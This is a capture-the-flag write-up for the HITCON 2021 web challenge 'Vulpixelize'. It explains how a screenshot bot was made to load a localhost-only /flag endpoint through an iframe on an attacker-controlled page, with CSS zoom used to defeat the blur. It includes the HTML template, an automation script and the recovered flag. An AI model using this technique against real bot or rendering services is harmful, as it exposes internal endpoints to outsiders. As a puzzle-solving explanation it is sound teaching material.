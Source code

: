 +++                        
title = "[Hitcon 2021 - web] Vulpixelize"                                  
tags = ["ctf", "ret2school", "HitconCTF", "tek", "web", "2021"]
date = "2022-01-02"
+++

# HITCON 2021 - Vulpixelize (232 points)

My solution for this challenge is maybe unintended and not very technical, but it works :)

---

We can send a URL that the bot will visit.  
It then takes a screenshot of the page, blurs it and returns us the result :  

![vulpixelize](https://raw.githubusercontent.com/ret2school/ctf/master/2021/hitcon/web/vulpixelize/img/vulpixelize.png)  

```py
@app.route('/submit', methods=['GET'])
def submit():
    path = 'static/images/%s.png' % uuid.uuid4().hex
    url  = request.args.get('url')
    if url:
        # secrity check
        if not url.startswith('http://') and not url.startswith('https://'):
            return message(msg='malformed url')

        # access url
        try:
            driver.get(url)
            data = driver.get_screenshot_as_png()
        except common.exceptions.WebDriverException as e:
            return message(msg=str(e))

        # save result
        img = Image.open(io.BytesIO(data))
        img = img.resize((64,64), resample=Image.BILINEAR)
        img = img.resize((1920,1080), Image.NEAREST)
        img.save(path)

        return message(msg=path)
    else:
        return message(msg="url not found :(")
```
  
There is a special endpoint at `/flag` that displays the flag only if we come from `127.0.0.1`, so only the bot can view the flag :  
```py
@app.route('/flag')
def flag():
    print(request.remote_addr)
    if request.remote_addr == '127.0.0.1':
        return message(FLAG)
    return message("allow only from local")
```
  
The idea is to redirect the bot to a page we control that contains an iframe which refers to the `/flag` endpoint, and zooms on parts of the flag to have large enough characters to bypass the blur.  
  
I used a combo of `div` with an `iframe` embedded in it to get only a part of the flag, and `transform`, `left`, `top` CSS properties to zoom on these parts.  
Here is the jinja template that does that :  
```html
<!DOCTYPE html>
<html>
    <head>
        <style>
#outerdiv {
    width: 1800px;
    height: 1000px;
    overflow: hidden;
    position: relative;
}

#inneriframe {
    position: absolute;
    width: 100px;
    height: 100px;
    zoom: 20;
    -moz-transform: scale(20);
    -moz-transform-origin: 0 0;
    -webkit-transform: scale(20);
    -webkit-transform-origin: 0 0;
    border: none;
    left: -{{idx}}px;
    top: -320px;
}
        </style>
    </head>
    <body>
        <div id="outerdiv">
            <iframe src="http://127.0.0.1:8000/flag#msg" id="inneriframe" scrolling=yes></iframe>
        </div>
    </body>
</html>
```
  
Each picture looks like this :  
![first part of flag](https://raw.githubusercontent.com/ret2school/ctf/master/2021/hitcon/web/vulpixelize/img/00.png)
  
The python script that automates the process (increment the `left` in the template and save the screenshot) :  
```py
from jinja2 import Template
from bs4 import BeautifulSoup

import requests
import os

HOST = "http://3.113.172.41:26478/"
# HOST = "http://0.0.0.0:8000/"

html = Template(open("./index.html.jinja2").read())

for idx in range(13):
    with open("./index.html", "w") as f:
        f.write(html.render(idx=450+90*idx))

    r = requests.get(HOST + "/submit?url=http%3A%2F%2FMON-IP%3AMON-PORT%2F")
    soup = BeautifulSoup(r.text, "html.parser")

    img = requests.get(HOST + soup.find(id="msg").a["href"])
    with open("img/{:02d}.png".format(idx), "wb") as f:
        f.write(img.content)

    print(idx)

os.system("bash -c 'convert img/{00..06}.png +append img/flag-0.png'")
os.system("bash -c 'convert img/{07..12}.png +append img/flag-1.png'")
```
  
The last two lines assemble all the images in 2 images that contains the flag :  
![flag 0](https://raw.githubusercontent.com/ret2school/ctf/master/2021/hitcon/web/vulpixelize/img/flag-0.png)
![flag 1](https://raw.githubusercontent.com/ret2school/ctf/master/2021/hitcon/web/vulpixelize/img/flag-1.png)
  
FLAG : `hitcon{1-1-4-1-6-1-e-9-f-9-4-c-7-3-e-4-9-7-a-7-5-d-4-6-6-c-6-3-3-7-f-4}`
